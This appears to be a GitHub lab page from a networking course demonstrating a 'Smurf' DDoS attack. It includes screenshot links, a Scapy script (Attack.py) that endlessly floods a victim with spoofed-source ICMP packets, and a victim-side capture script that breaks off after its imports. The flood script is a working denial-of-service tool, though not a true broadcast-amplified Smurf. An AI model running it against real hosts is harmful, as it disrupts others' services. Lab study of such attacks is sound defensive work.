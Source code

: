 <img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/Network_Fundamentals/assets/140537888/8418fa9f-50b7-486b-9a42-9784e664ad02">## Smruf Attack

A Smurf attack is a distributed denial-of-service (DDoS) attack in which an attacker attempts to flood a targeted server with Internet Control Message Protocol (ICMP) packets.

## Lab:

## 1. Environment :

Attack Machine:

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/Network_Fundamentals/assets/140537888/ccfa7621-e3b0-464d-9e24-bd5571bd8864">

Victim Machine:

<img width="861" alt="image" src="https://github.com/SantoshKumarP1412/Network_Fundamentals/assets/140537888/85ba55b9-a597-43e2-90c4-6fdf56e96968">


## 2. Scapy Code:

Attack.py

```
#!/usr/bin/env python

import sys

from scapy.all import *

def send_packet(srcIP, dstIP, count):
  p = IP(src=srcIP, dst=dstIP) / ICMP() 
  return send(p, count=count)

if __name__ == "__main__":
  if len(sys.argv) < 3:
    print(f"sudo {sys.argv[0]} <victim IP> <random IPs for source seperated by SPACE>")
    sys.exit(1)
  dstIP = sys.argv[1]
  srcIPs = sys.argv[2:]
  while True:
    for srcIP in srcIPs:
      send_packet(srcIP, dstIP, 100)
```



Victim.py

```
#!/usr/bin/env python3

import signal
import sys

if len(sys.argv) != 2:
  print("sudo {} <pcap file name to save>".format(sys.argv[0]))
  sys.exit(1)

pktfilename = sys.argv[1]

try:
  from scapy.all import *
except ImportError:
  import os
  os.system("pip install scapy==2.5.0 matplotlib==3.8.2 pyx==0.16 vpython==7.6.4 cryptography==42.0.2")
```